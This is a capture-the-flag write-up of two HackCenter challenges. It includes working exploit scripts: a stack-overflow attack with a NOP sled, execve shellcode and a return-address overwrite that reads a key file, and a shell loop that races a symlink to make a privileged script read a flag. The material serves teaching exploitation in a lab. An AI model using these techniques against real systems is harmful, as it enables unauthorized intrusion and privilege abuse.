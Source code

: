 ﻿# HackCenter Write Up
by Tilden Jackson (thjackso)
## Contents
* **[Overflowme](#overflowme)**
* **[safecat3](#safecat3)**

## Overflowme
We are asked the following:
>There is a vulnerable service running on shell.hackcenter.dbrumley.com:54236. Exploit it and read the contents of  **key**  on the shell server. The  [binary](https://hackcenter.dbrumley.com/problems/f22e5556fd40d8f57f3bed2489014172/overflowme)  and  [its source](https://hackcenter.dbrumley.com/problems/f22e5556fd40d8f57f3bed2489014172/overflowme.c)  are also available in /problems/5f43b170468963298f74950d92135b87 on the shellserver.
\
HINTS
Have you heard of buffer overflows?
Here's a shellcode for you:  
`\x31\xC0\xF7\xE9\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x50\x68\x2D\x69\x69\x69\x89\xE6\x50\x56\x53\x89\xE1\xB0\x0B\xCD\x80`
Stack addresses may differ in gdb.
ASLR is disabled

This gives us a lot of helpful hints. We know that we will be able to overflow a buffer to inject our own values and we are even given a shell script code that we can inject. 

The overflowme.c source code is relatively simple and we can readily identify the vulnerability in read which will allow us to write in 443 characters of our own values into the buffer that is only 379 bytes long. However, this only leaves us with 64bytes to work with. This is enough for our shell script but not much more.
```
void vuln() {                                                           
    puts("What is your name?");                                         
    fflush(stdout);                                                     
    char buf[379];                                                      
    strcpy(buf, "Hello ");                                              
    while (read(0, &c, 1) > 0 && c!='\n' && i < 443u) {                 
      buf[i++] = c;                                                     
    }                                                                   
    buf[i] = '\x00';                                                    
                                                                        
    puts(buf);                                                          
    fflush(stdout);                                                     
    return;                                                             
}                                                                       
                                                                        
void be_nice_to_people(){                                               
    gid_t gid = getegid();                                              
    setresgid(gid, gid, gid);                                           
}                                                                       
                                                                        
int main(int argc, char **argv) {                                       
                                                                        
    be_nice_to_people();                                                
    vuln();                                                             
    return 0;                                                           
                                                                        
} 
```

Since ASLR is disabled we can just look at the absolute address of the buffer and inject that address into the return address of the function to use a ret2buf attack where we store our shellcode in the buffer.

The address of the buffer is `0xffffd395` but since we are a little uncertain we will use a nop slide and guess the address to be the middle of the nop slide incase we miss. 

To understand the `<vuln>` function better we will look at the disassembled code
```
Dump of assembler code for function vuln:
   0x08049196 <+0>:     push   ebp
   0x08049197 <+1>:     mov    ebp,esp
   0x08049199 <+3>:     sub    esp,0x188
   ...
   0x080491c0 <+42>:    lea    eax,[ebp-0x183]
   0x080491c6 <+48>:    mov    DWORD PTR [eax],0x6c6c6548
   0x080491cc <+54>:    mov    DWORD PTR [eax+0x3],0x206f6c
   0x080491d3 <+61>:    jmp    0x80491f1 <vuln+91>
   ...
   0x080491fd <+103>:   call   0x8049040 <read@plt>
   0x08049202 <+108>:   add    esp,0x10
   0x08049205 <+111>:   test   eax,eax
   0x08049207 <+113>:   jle    0x8049220 <vuln+138>
   0x08049209 <+115>:   movzx  eax,BYTE PTR ds:0x804c029
   0x08049210 <+122>:   cmp    al,0xa
   0x08049212 <+124>:   je     0x8049220 <vuln+138>
   0x08049214 <+126>:   mov    eax,ds:0x804c020
   0x08049219 <+131>:   cmp    eax,0x1ba
   0x0804921e <+136>:   jbe    0x80491d5 <vuln+63>
   ...
```
From the disassembly of the vuln function we see that the buf is at `-0x183(ebp)` however since `Hello ` is already stored in there we actually start writing in a little higher. We must keep this in mind for where the return address is. The return address is 385 bytes from the buffer where we start writing or `0x181` this comes from `0x183 (buf base addr) - 6 ("Hello ") + 4 (push ebp)`. Now we know all we need to overflow and we can exploit as shown with the script below:

**Automated Solve Script**:
```
#!/usr/bin/env/python3
# file: exploit.py

import struct
import subprocess

binary_file = "/problems/5f43b170468963298f74950d92135b87/overflowme_no_aslr"

ret_addr = (0xffffd395 + 100)
nop_slide = b"\x90"*(300)
shellcode = b"\x31\xC0\xF7\xE9\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x50\x68\x2D\x69\x69\x69\x89\xE6\x50\x56\x53\x89\xE1\xB0\x0B\xCD\x80"
pad = b"a"*(385-(len(shellcode)+len(nop_slide)))
exploit = nop_slide + shellcode + pad + struct.pack("<I",ret_addr)

bash_command = b"/bin/cat /problems/5f43b170468963298f74950d92135b87/key"

subprocess.run(binary_file, input=exploit+b"\n"+bash_command)
```

## Safecat3
We are asked the following:
>Alright, that's it! I believe we finally managed to make it secure! Good luck hacking around  [safecat3.sh](https://hackcenter.dbrumley.com/problems/c4f3d7d639b82e514e12b224df899bef/safecat3.sh)  (also under /problems/7329e2b6ebeb17689bb9782845f90c05). We're safe this time.
\
HINTS:
Do you know what TOCTOU stands for?

In this vulnerable shellscript the author has learned from his mistakes and "resecured" the shellscript by using absolute paths for all of the library calls so we cannot do what we did in [safecat2](#safecat2) and subvert this by writing our own library versions of the function.

However, the function is has a TOCTOU  (Time of Check Time of Usage) vulnerablity. By quickly changing the symbolic link between a link that is valid and passes one of the checks -- `case "$path" in
  /tmp/* | /proc/* | /var/*)
    /bin/cat "$1";;
  *)` -- and a link that points to the file that we want to access `flag.txt` we can get the "safe" cat script to read the flag.txt to us with its elevated permissions.

**Automated Solve Script**:
```
#!/bin/sh


/problems/7329e2b6ebeb17689bb9782845f90c05/safecat /home/thjackso/exploit_link &

while true; do
        ln -sf /problems/7329e2b6ebeb17689bb9782845f90c05/flag /home/thjackso/exploit_link
        ln -sf /var/www/html/index.nginx-debian.html /home/thjackso/exploit_link
done
```
